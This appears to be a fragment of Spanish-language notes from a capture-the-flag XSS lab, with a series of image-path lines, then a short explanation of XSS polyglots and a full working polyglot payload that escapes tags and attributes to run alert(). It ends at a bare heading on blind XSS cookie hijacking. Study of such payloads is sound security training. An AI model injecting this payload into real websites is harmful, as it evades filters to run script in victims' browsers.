







Políglotas:
Un políglota XSS es una cadena de texto que puede escapar atributos, etiquetas y eludir filtros, todo en uno. Podrías haber usado el políglota a continuación en los seis niveles que acabas de completar y el código se habría ejecutado
correctamente.
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
XSS Blind - Secuestro de Cookies
